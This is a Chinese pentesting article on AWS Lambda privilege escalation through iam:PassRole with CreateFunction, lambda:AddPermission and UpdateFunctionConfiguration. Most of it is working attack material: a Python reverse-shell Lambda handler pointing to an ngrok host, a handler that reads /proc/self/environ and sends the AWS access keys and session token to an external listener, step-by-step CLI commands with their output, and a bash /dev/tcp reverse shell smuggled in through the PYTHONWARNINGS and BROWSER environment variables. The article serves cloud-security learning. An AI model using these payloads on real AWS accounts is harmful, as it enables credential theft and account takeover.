





# 深入解析 AWS Lambda：权限管理与提权技巧全揭秘-先知社区

> **来源**: https://xz.aliyun.com/news/17179  
> **文章ID**: 17179

---

## 深入解析 AWS Lambda：权限管理与提权技巧全揭秘

主要是从逻辑层面来理解为什么可以权限提升，细节可能有所不足，因为真实环境可能千奇百怪，但是本质还是一样的

#### lambda:CreateFunction & iam:PassRole

**iam:PassRole**  
iam:PassRole 是 AWS IAM 权限中的一个重要权限，它允许某个 IAM 用户或角色将特定的 IAM 角色传递（“pass”）给 AWS 服务，以便这些服务可以使用该角色来执行任务或访问资源。

简单来讲就是可以把自己的权限加到自己创造的东西上

这个角色通常有相关权限，可以让服务执行其预定的任务（如访问 S3 存储、写入 CloudWatch 日志、访问其他 AWS 资源等）。

具有 iam:PassRole 权限的用户可以将一个角色传递给其他 AWS 服务，但用户自己并不会直接拥有该角色的权限。

iam:PassRole 权限仅仅是传递角色，而不是授予角色的权限

**CreateFunction**  
就是可以创建匿名函数，这里默认有执行权限，因为正常逻辑来讲能够创建就是能够执行的

##### 原理

我们可以思考一下漏洞该如何利用，其实原理非常简单，我们有 PassRole 权限，我们给匿名函数赋予管理员的权限，然后通过控制匿名函数，比如获取当前函数的 env，就可以得到高权限的 key 了

##### 利用

我们来尝试一波，首先第一个需要解决的问题就是匿名函数的形式

反弹 shell？  
在<https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-privilege-escalation/aws-lambda-privesc#iam-passrole-lambda-createfunction-lambda-invokefunction-or-lambda-invokefunctionurl>  
中有演示

```
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```

我们可以先自己在本地尝试一下

```
import socket,subprocess,os,time

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('ip',2333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)

```

运行后

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 171.219.209.90.
Ncat: Connection from 171.219.209.90:49934.
```

能够连上，但是秒断开了

然后又去网上找了很多反弹 shell 的 python 代码，都失败了

这里尝试直接读取 env 文件

```
import socket
import subprocess
import os
import time

def lambda_handler(event, context):
    # 设置文件路径和目标地址
    file_path = '/proc/self/environ'
    target_address = ('xxxx', 2333)

    # 读取文件内容
    with open(file_path, 'r') as file:
        file_content = file.read()

    # 创建 socket 连接并发送数据
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(target_address)
    s.sendall(file_content.encode())
    s.close()

    return 0

```

这里我们先在环境上尝试一下，是否可以

  
设置匿名函数的源代码如上，然后触发一波

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 100.28.227.145.
Ncat: Connection from 100.28.227.145:59262.
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_EXECUTION_ENV=AWS_Lambda_python3.13
AWS_DEFAULT_REGION=us-east-1
AWS_LAMBDA_LOG_STREAM_NAME=2024/12/28/[$LATEST]1060e2c130674bc797219b7034a64470
AWS_REGION=us-east-1
PWD=/var/task
_LAMBDA_TELEMETRY_LOG_FD=62
_HANDLER=lambda_function.lambda_handler
TZ=:UTC
LAMBDA_TASK_ROOT=/var/task
LANG=en_US.UTF-8
AWS_SECRET_ACCESS_KEY=xxxx
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/any
AWS_LAMBDA_RUNTIME_API=169.254.100.1:9001
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=128
LAMBDA_RUNTIME_DIR=/var/runtime
AWS_XRAY_DAEMON_ADDRESS=169.254.100.1
AWS_XRAY_DAEMON_ADDRESS=169.254.100.1:2000
SHLVL=0
AWS_ACCESS_KEY_ID=xxxx
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_FUNCTION_NAME=any
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
AWS_LAMBDA_INITIALIZATION_TYPE=on-demand
AWS_SESSION_TOKEN=xxxx

AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_XRAY_DAEMON_PORT=2000

```

可以看到是成功了的

我们首先查询当前的 IAM 角色

```
root@VM-16-17-ubuntu:~# aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "any",
            "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:any",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::985539798290:role/Test",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 494,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2024-12-28T18:50:28.000+0000",
            "CodeSha256": "quLtNmpzS7WGgRxZyjvglbtcz1jtAFNAOSO0yi3Scg4=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "1fd54c7e-ec1d-4404-a5f8-6f53e880554f"
        },
        {
            "FunctionName": "Test",
            "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:Test",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::985539798290:role/service-role/Test-role-am3k6gl0",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 279,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2024-12-28T11:19:41.000+0000",
            "CodeSha256": "9CXXPBsGW/Kn9U32JeruWh+jXAFZIrBFjyIt0+RxoDQ=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "6dfe8a86-0084-4035-a352-b35f092a1dd4"
        }
    ]
}
root@VM-16-17-ubuntu:~# aws iam list-roles --region us-east-1
{
    "Roles": [
        {
            "Path": "/aws-service-role/support.amazonaws.com/",
            "RoleName": "AWSServiceRoleForSupport",
            "RoleId": "AROA6K5V74UJDXXBWQ33V",
            "Arn": "arn:aws:iam::985539798290:role/aws-service-role/support.amazonaws.com/AWSServiceRoleForSupport",
            "CreateDate": "2024-12-23T08:46:14Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "support.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Enables resource access for AWS to provide billing, administrative and support services",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/aws-service-role/trustedadvisor.amazonaws.com/",
            "RoleName": "AWSServiceRoleForTrustedAdvisor",
            "RoleId": "AROA6K5V74UJNG7PVUZNA",
            "Arn": "arn:aws:iam::985539798290:role/aws-service-role/trustedadvisor.amazonaws.com/AWSServiceRoleForTrustedAdvisor",
            "CreateDate": "2024-12-23T08:46:14Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "trustedadvisor.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Access for the AWS Trusted Advisor Service to help reduce cost, increase performance, and improve security of your AWS environment.",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/",
            "RoleName": "Test",
            "RoleId": "AROA6K5V74UJADL6LOYW6",
            "Arn": "arn:aws:iam::985539798290:role/Test",
            "CreateDate": "2024-12-28T14:12:43Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "lambda.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Allows Lambda functions to call AWS services on your behalf.",
            "MaxSessionDuration": 3600
        },
        {
            "Path": "/service-role/",
            "RoleName": "Test-role-am3k6gl0",
            "RoleId": "AROA6K5V74UJGVOV7CREQ",
            "Arn": "arn:aws:iam::985539798290:role/service-role/Test-role-am3k6gl0",
            "CreateDate": "2024-12-28T10:48:17Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "Service": "lambda.amazonaws.com"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "MaxSessionDuration": 3600
        }
    ]
}
```

这里我就使用 Test 角色作为演示

```
root@VM-16-17-ubuntu:~# aws  lambda create-function --function-name lambda-user-rev --runtime python3.9 --role arn:aws:iam::985539798290:role/Test --handler rev.lambda_handler --zip-file fileb://rev.zip
{
    "FunctionName": "lambda-user-rev",
    "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:lambda-user-rev",
    "Runtime": "python3.9",
    "Role": "arn:aws:iam::985539798290:role/Test",
    "Handler": "rev.lambda_handler",
    "CodeSize": 510,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2024-12-28T19:04:46.553+0000",
    "CodeSha256": "fAWUWASAx+1qCqXOkydgbCpwfZYJKPl8u9L3sfqn/9I=",
    "Version": "$LATEST",
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "733f95e1-26ef-4324-9475-e2d3b09439a2",
    "State": "Pending",
    "StateReason": "The function is being created.",
    "StateReasonCode": "Creating"
}
```

--zip-file fileb://rev.zip:

这个参数指定了 Lambda 函数的代码包，即将要上传的压缩文件。fileb://rev.zip 表示使用本地的 rev.zip 文件，该文件需要是一个包含 Python 代码及其所有依赖的压缩包，AWS Lambda 会解压并执行其中的内容。

--role  
这个参数也是我们的关键，指定了 Lambda 函数的执行角色（IAM Role)

我们查看创建成功没有



  
可以看见是成功的传上去了

然后我们执行这个匿名函数

之后可能会报错，只需要修改文件名为 rev.py

主要和--handler rev.lambda\_handler 参数有关

--handler rev.lambda\_handler 这个参数用于指定 Lambda 函数的入口点，它告诉 AWS Lambda 从哪里开始执行代码。

rev: 这是 Python 脚本文件的名称（不带 .py 扩展名）。在你的例子中，它指向一个名为 rev.py 的 Python 文件。

lambda\_handler: 这是在 rev.py 文件中定义的函数名称。AWS Lambda 会查找这个函数，并且在触发 Lambda 函数时调用它作为程序的入口。

执行函数

```
root@VM-16-17-ubuntu:~# aws  lambda invoke --function-name lambda-user-rev out.txt
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```



得到了数据成功

#### lambda:AddPermission

lambda:AddPermission 是 AWS Lambda 的 API 操作，用于向 Lambda 函数添加权限，允许其他 AWS 服务或用户调用该函数。通过 AddPermission，可以控制哪些实体（如 IAM 用户、IAM 角色或 AWS 服务）能够执行 Lambda 函数的某些操作。

##### 原理

其实原理还是很简单的，就是用户可以随意给某 IAM 角色赋予 lambda 函数的任意权限，比如 a 用户只有列出用户的权限，但是我们可以通过 lambda 函数给他其他的权限

而且可以更改 lambda 函数的代码，把原本正常的更能改为有漏洞的代码

##### 分析

查看函数

```
root@VM-16-17-ubuntu:~# aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "any",
            "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:any",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::985539798290:role/Test",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 494,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2024-12-28T18:50:28.000+0000",
            "CodeSha256": "quLtNmpzS7WGgRxZyjvglbtcz1jtAFNAOSO0yi3Scg4=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "1fd54c7e-ec1d-4404-a5f8-6f53e880554f"
        },
        {
            "FunctionName": "Test",
            "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:Test",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::985539798290:role/service-role/Test-role-am3k6gl0",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 279,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2024-12-28T11:19:41.000+0000",
            "CodeSha256": "9CXXPBsGW/Kn9U32JeruWh+jXAFZIrBFjyIt0+RxoDQ=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "6dfe8a86-0084-4035-a352-b35f092a1dd4"
        },
        {
            "FunctionName": "aaa",
            "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:aaa",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::985539798290:role/Test",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 299,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2024-12-29T08:13:20.660+0000",
            "CodeSha256": "HAPq9EReJVEC5gLavtc/gyd5vZtd9eiUGF932t0jBxY=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "0cad60eb-f44a-4454-acf9-5739af22feb8"
        }
    ]
}
```

以 aaa 为例子

首先我们给当前角色赋予我们的权限

```
root@VM-16-17-ubuntu:~# aws lambda add-permission --function-name aaa --statement-id allow-lll-to-invoke --action "*" --principal arn:aws:iam::985539798290:user/lll
{
    "Statement": "{"Sid":"allow-lll-to-invoke","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::985539798290:user/lll"},"Action":"*","Resource":"arn:aws:lambda:us-east-1:985539798290:function:aaa"}"
}
```

--action 我这里使用\* 代表的是所有的权限

然后准备我们的文件

```
root@VM-16-17-ubuntu:~# cat lambda_function.py
import socket
import subprocess
import os
import time

def lambda_handler(event, context):
    # 设置文件路径和目标地址
    file_path = '/proc/self/environ'
    target_address = ('xxxx', 2333)

    # 读取文件内容
    with open(file_path, 'r') as file:
        file_content = file.read()

    # 创建 socket 连接并发送数据
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(target_address)
    s.sendall(file_content.encode())
    s.close()

    return 0
```

然后压缩

```
root@VM-16-17-ubuntu:~# zip lambda_function.zip lambda_function.py
```

之后我们更新函数

```
root@VM-16-17-ubuntu:~# aws  lambda update-function-code --function-name aaa --zip-file fileb://lambda_function.zip
{
    "FunctionName": "aaa",
    "FunctionArn": "arn:aws:lambda:us-east-1:985539798290:function:aaa",
    "Runtime": "python3.13",
    "Role": "arn:aws:iam::985539798290:role/Test",
    "Handler": "lambda_function.lambda_handler",
    "CodeSize": 538,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2024-12-29T08:49:55.000+0000",
    "CodeSha256": "6xXza89toYQ4e4H3OVfmRRyFneJiSIi7r+bba1bFFOI=",
    "Version": "$LATEST",
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "200db93b-46e9-4af4-9b00-327008d62656",
    "State": "Active",
    "LastUpdateStatus": "InProgress",
    "LastUpdateStatusReason": "The function is being created.",
    "LastUpdateStatusReasonCode": "Creating"
}
```

然后执行这个函数

```
root@VM-16-17-ubuntu:~# aws lambda invoke --function-name aaa out.txt
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

  
之后收到请求

#### lambda:UpdateFunctionConfiguration

lambda:UpdateFunctionConfiguration 是 AWS IAM（Identity and Access Management）中的一个权限，它允许用户或角色修改现有 AWS Lambda 函数的配置设置。具体来说，这个权限允许用户对 Lambda 函数的以下内容进行更改

这里说两个重要的

**环境变量（Environment Variables）：**

用户可以设置、修改或删除 Lambda 函数的环境变量。环境变量可以包含各种配置信息，比如 API 密钥、数据库连接信息等，甚至可以用于注入恶意代码（例如通过 Python 的 PYTHONWARNINGS 或 Bash 的 BROWSER 环境变量进行命令注入）。

**角色（Role）：**

用户可以为 Lambda 函数分配 IAM 角色，授予它执行特定操作所需的权限。若用户拥有足够权限，还可以将具有更高权限的角色赋予 Lambda 函数，进而通过 Lambda 获得更高的访问权限。这是权限提升的一种常见方式。

参考 <https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-privilege-escalation/aws-lambda-privesc#lambda-addpermission>

使用此权限，可以添加将导致 Lambda 执行任意代码的环境变量。例如，在 python 中，可以滥用环境变量 PYTHONWARNING 和 BROWSER 来使 python 进程执行任意命令：

```
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER="/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s"}"
```

也就是执行函数的时候会导入环节变量，然后执行命令

参考[www.ms08067.com](http://www.ms08067.com)
